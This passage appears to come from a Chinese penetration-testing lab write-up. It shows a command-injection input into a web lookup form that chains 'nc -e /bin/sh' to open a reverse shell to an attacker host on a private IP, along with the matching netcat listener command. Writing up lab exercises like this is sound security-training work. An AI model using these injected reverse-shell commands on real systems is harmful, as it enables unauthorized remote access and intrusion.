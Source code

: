 ![](./pic-6/15.jpg)

再经过测试，使用`bash`反弹，我这里未能成功，采用`nc`反弹成功获取`shell`

对于多种反弹`shell`方式，可以借助网站`https://forum.ywhack.com/shell.php`测试

```shell
#在输入框输入下面代码
127.0.0.1|nc -e /bin/sh 192.168.10.2 9999
```

然后在`kali`中使用`nc`进行监听端口

```shell
#在kali中
nc -lvvp 9999
```

然后在浏览器的界面中，点击`lookup`按钮，即可发现，反弹`shell`成功

![](./pic-6/16.jpg)
